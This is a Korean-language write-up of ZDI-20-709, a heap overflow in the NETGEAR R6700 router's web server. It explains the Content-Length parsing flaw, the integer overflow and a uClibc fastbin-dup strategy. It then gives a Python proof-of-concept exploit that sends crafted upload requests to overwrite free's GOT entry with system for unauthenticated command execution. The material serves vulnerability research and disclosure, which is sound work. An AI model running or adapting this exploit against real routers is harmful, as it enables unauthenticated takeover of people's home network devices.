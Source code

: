 # Heap Overflow in the NETGEAR NightHawk R6700 Router
* Date : Feb 2020
* Advisory : [ZDI](https://www.zerodayinitiative.com/advisories/ZDI-20-709/)
* CVSS : [8.8](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?calculator&version=3.0&vector=(AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H))
* Affected Versions : NETGEAR R6700 Router /w under V1.0.4.84_10.0.58 firmware version

## Description
> 익스플로잇을 위한 상세한 테크닉 설명은 생략함  

본 취약점은 `/usr/bin/httpd` 바이너리에서 HTTP 리퀘스트를 처리하면서 발생한다. 해당 쿼리는 인증받지 않은 사용자가 전송할 수 있으며 공격에 성공할 경우 완변한 쉘 명령어 실행권한을 획득할 수 있다. 요약하면 취약점은 2개이다.

* 사용자가 새로운 설정파일을 업로드할 수 있는 것 (Authentication Failure)
* 파일 업로드 기능에서 Integer Overflow로 인한 Heap Overflow 

첫 번째 취약점의 경우 본 익스플로잇을 작성하는데 큰 영향을 주진 않는다. 사용자가 설정 파일을 새로 업로드할 수 있어도 이를 적용하기 위해선 기존 credential 정보에 대한 인증 작업이 이뤄지기 때문이다. 하지만, 두 번재 취약점은 치명적인데, 이는 사용자(공격자)가 업로드한 파일을 Heap 영역에 할당된 버퍼에 원하는 크기만큼 복사할 수 있다. 이를 간단하게 pseudo code로 표현하면 다음과 같다.

```c
buffer = malloc(attacker_control_size);
memcpy(buffer, file_content, file_content_size);
```

할당된 버퍼 크기를 조절하기 위해서 **Content-Length** 헤더를 사용할 수 있다. 하지만, 본 공유기에서 HTTP 리퀘스트를 Nginx Proxy를 거치도록 설계되어 있어, 단순히 해당 헤더에 원하는 값을 적는다고 원하는 크기로 할당할 수 없다. 하지만, CGI 바이너리에서 **Content-Length** 헤더 값을 처리하는데 *atoi* 함수를 이용하는데 해당 함수의 로직에 문제가 있다. 요약하면, *atoi* 함수 내에 *strstr* 함수를 통해 **Content-Length** 헤더의 마지막 값을 가져와야하는데 실수로 헤더가 아닌 전체 리퀘스트 패킷 전체를 입력 값으로 받게되어 공격자가 원하는 임의의 값으로 설정할 수 있게 된다. 예를들어, `POST /cgi-bin/genie.cgi?backup.cgiContent-Length: 111 HTTP/1.1` 로 리퀘스트를 보낸 경우 `strstr` 함수에서는 **111 HTTP/1.1** 값을 입력으로 받게 되는 것이다. 이후, 업로드한 파일을 저장하기 위한 공간을 할당하기 위해 *malloc* 함수의 인자로 이전에 계산한 값에 0x258을 더한 값을 설정한다. 만약, 공격자가 조작한 값이 **0xffffffe9**와 같은 음수 값이라면 0x258이 더해지면 **0x241** 값으로 설정(Integer Overflow)된다. 이를 통해, 위 C코드에서 **attacker_control_size** 값을 설정할 수 있게 된다. 

다음으로, 할당된 Heap 버퍼에 공격자가 업로드한 파일 내용을 복사하는 부분은 다음과 같다.  
![heap overflow](img/heapoverflow.png)

이전에 계산된 크기대로 *memset*을 통해 초기화하고 *memcpy* 함수를 통해 공격자가 업로드한 파일 내용을 그대로 복사(Heap Overflow)한다. 

## Exploit Summary
여태까지 식별된 취약점과 익스플로잇을 위한 고려사항은 다음과 같다.  
* Heap Overflow 취약점을 통해 Heap 영역에 임의의 데이터를 작성할 수 있음
* 본 공유기 모델의 특성상 ASLR이 허술하게 구현되어 있어 Heap 메모리가 **고정된 주소**에 할당됨
* 본 공유기 파일시스템에선 glibc의 소형 버전인 uClibc를 사용하며, malloc/free 구현 형태가 다소 단순하고 (기존 glibc heap exploitation 기법과) 익스플로잇 형태가 다름
* *memcpy* 함수를 통해 Heap Overflow 발생 이후 에러 페이지를 반환하는 함수(`sub_21a58`)가 호출되며, 해당 함수에서는 파일을 열기 위해 `fopen` 함수가 호출됨
* *fopen* 함수에선 *malloc* 함수가 두번 호출되며 각각 0x60, 0x1000 크기로 할당되고 해제(free)됨

본 취약점을 익스플로잇하기 위해선 **[fastbin dup](https://github.com/shellphish/how2heap#educational-heap-exploitation)** 기법을 활용할 수 있는데, 한 가지 문제점이 있다. 위에서 언급한 flow에서 마지막에 *malloc(0x1000)* 이 호출되는데 이는 *__malloc_consolidate* 함수를 호출해서 (비교적 작은 크기의 할당 해제된 청크들을 담고 있는) fastbin 구조를 망가뜨린다. 이를 막기 위해서 본 공유기에서 사용하는 uClibc의 metadata 설계 취약점을 이용해야 한다. 해당 기법에 대한 설명은 생략한다. 정리하면, 다음과 같은 흐름으로 쉘 명령어 실행 권한을 획득할 수 있다.  
* **Content-Length** 헤더 값을 변조해서 원하는 크기만큼 Heap 버퍼 할당
* fastbin dup 공격 기법을 이용하기 위한 사전 작업을 수행
* fastbin dup 공격을 통해 공격자가 지정한 주소 **free_got** 를 *malloc* 함수 반환 값으로 획득하고 해당 영역의 값을 **system_plt** 주소로 설정 (Write-What-Where)
* 이후 에러 페이지를 띄우는 함수 `sub_21a58`에서 *fopen* 함수를 통해 *free* 함수가 호출되고 이는 overwrite된 값으로 인해 *system* 함수를 실행 (Get a shell)

## PoC
```python
def exploit():
    path = '/cgi-bin/genie.cgi?backup.cgiContent-Length: 4156559'
    headers = ['Host: %s:%s' % (rhost, rport), 'a'*0x200 + ': d4rkn3ss']
    files = {'name': 'mtenRestoreCfg', 'filecontent': 'a'}
    print '[+] malloc 0x28 chunk'
    # 00:0000│ 0x103f000 ◂— 0x0
    # 01:0004│ 0x103f004 ◂— 0x29
    # 02:0008│ r0 0x103f008 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x20)
    post_request(path, headers, f)

    print '[+] malloc 0x18 chunk'
    # 00:0000│ 0x103f000 ◂— 0x0
    # 01:0004│ 0x103f004 ◂— 0x29 /* ')' */
    # 02:0008│ 0x103f008
    # 03:000c│ 0x103f00c
    # ... ↓
    # 0a:0028│ 0x103f028
    # 0b:002c│ 0x103f02c ◂— 0x19
    # 0c:0030│ r0 0x103f030 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x10)
    post_request(path, headers, f)

    print '[+] malloc 0x28 chunk and overwrite 0x18 chunk header to make overlap chunk'
    # 00:0000│ 0x103eb50 ◂— 0x0
    # 01:0004│ 0x103eb54 ◂— 0x21 <-- recheck
    # ... ↓
    # 12d:04b4│ 0x103f004 ◂— 0x29 /* ')' */
    # 12e:04b8│ 0x103f008 ◂— 0x61616161 ('aaaa') <-- 0x28 chunk
    # ... ↓
    # 136:04d8│ 0x103f028 ◂— 0x4d8
    # 137:04dc│ 0x103f02c ◂— 0x18
    # 138:04e0│ 0x103f030 ◂— 0x0
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x20)
    f['filecontent'] = 'a' * 0x20 + p32(0x4d8) + p32(0x18)
    post_request(path, headers, f)

    print '[+] malloc 0x4b8 chunk and overwrite size of 0x28 chunk -> 0x9. Then, when __malloc_consolidate() function is called, __malloc_state->max_fast will be overwritten to a large value.'
    # 00:0000│ 0x103eb50 ◂— 0x0
    # 01:0004│ 0x103eb54 ◂— 0x4f1
    # ... ↓
    # 12d:04b4│ 0x103f004 ◂— 0x9
    # 12e:04b8│ 0x103f008
    # ... ↓
    # 136:04d8│ 0x103f028 ◂— 0x4d8
    # 137:04dc│ 0x103f02c ◂— 0x18
    # 138:04e0│ 0x103f030 ◂— 0x0
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x4b0).ljust(0x10) + 'a' * 0x4ac + p32(0x9)
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x18 chunk'
    # 00:0000│ 0x10417a8 ◂— 0xdfc3a88e
    # 01:0004│ 0x10417ac ◂— 0x19
    # 02:0008│ r0 0x10417b0 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x10)
    post_request(path, headers, f)

    print '[+] malloc 0x38 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ r0 0x103e770 <-- return here
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x30).ljust(0x10) + 'a'
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x48 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ r0 0x103e770
    # ... ↓
    # 0e:0038│ 0x103e7a0
    # 0f:003c│ 0x103e7a4 ◂— 0x49 /* 'I' */
    # 10:0040│ r0 0x103e7a8 <-- return here
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x40).ljust(0x10) + 'a'
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] malloc 0x38 chunk and overwrite fd pointer of 0x48 chunk'
    # 00:0000│ 0x103e768 ◂— 0x4 <-- 0x38 chunk
    # 01:0004│ 0x103e76c ◂— 0x39 /* '9' */
    # 02:0008│ 0x103e770 ◂— 0x0
    # 03:000c│ 0x103e774 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaI'
    # ... ↓
    # 0f:003c│ 0x103e7a4 ◂— 0x49 /* 'I' */ <-- 0x48 chunk
    # 10:0040│ 0x103e7a8 —▸ 0xf555c (semop@got.plt)
    free_got_addr = 0xF559C
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x30)
    f['filecontent'] = 'a' * 0x34 + p32(0x49) + p32(free_got_addr - 0x40)
    post_request(path, headers, f)

    print '[+] malloc 0x48 chunk'
    # 00:0000│ 0x103e7a0 ◂— 'aaaaI'
    # 01:0004│ 0x103e7a4 ◂— 0x49 /* 'I' */
    # 02:0008│ r0 0x103e7a8 <-- return here
    f = copy.deepcopy(files)
    f['filename'] = make_filename(0x40)
    post_request(path, headers, f)

    print '[+] malloc 0x48 chunk. And overwrite free_got_addr'
    # 00:0000│ 0xf555c (semop@got.plt) —▸ 0x403b6894 (semop) ◂— push {r3, r4, r7, lr}
    # 01:0004│ 0xf5560 (__aeabi_idiv@got.plt) —▸ 0xd998 ◂— str lr, [sp, #-4]!
    # 02:0008│ r0 0xf5564 (strstr@got.plt) —▸ 0x403c593c (strstr) ◂— push {r4, lr} <-- return here
    system_addr = 0xDBF8
    f = copy.deepcopy(files)
    f['name'] = 'StringFilepload'
    f['filename'] = 'a' * 0x100
    f['filecontent'] = p32(0x40).ljust(0x10) + command.ljust(0x38, '') + p32(system_addr)
    post_request('/strtblupgrade.cgi.css', headers, f)

    print '[+] Done'
```

## Reference
- [ZDI Writeup](https://www.thezdi.com/blog/2020/6/24/zdi-20-709-heap-overflow-in-the-netgear-nighthawk-r6700-router)